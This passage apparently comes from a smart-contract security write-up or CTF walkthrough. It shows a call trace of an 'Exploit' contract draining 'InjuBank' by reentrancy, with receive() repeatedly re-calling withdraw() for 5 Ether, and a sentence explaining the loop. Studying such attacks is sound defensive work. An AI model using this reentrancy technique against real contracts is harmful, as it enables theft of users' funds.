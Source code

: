 ```bash
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [16876] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [16311] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [8536] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [7971] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [196] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   └─ ← ()
    │   │   │   │   └─ ← ()
    │   │   │   └─ ← ()
    │   │   └─ ← ()
    │   └─ ← ()
```
&nbsp;  
In short, when the Ether is received by our Exploit Contract, it will first check whether the Inju Bank Contract still has balance or not (greater than or equal to 0), if it's valid, it will then call another *withdraw()* with 5 Ether, until it's false.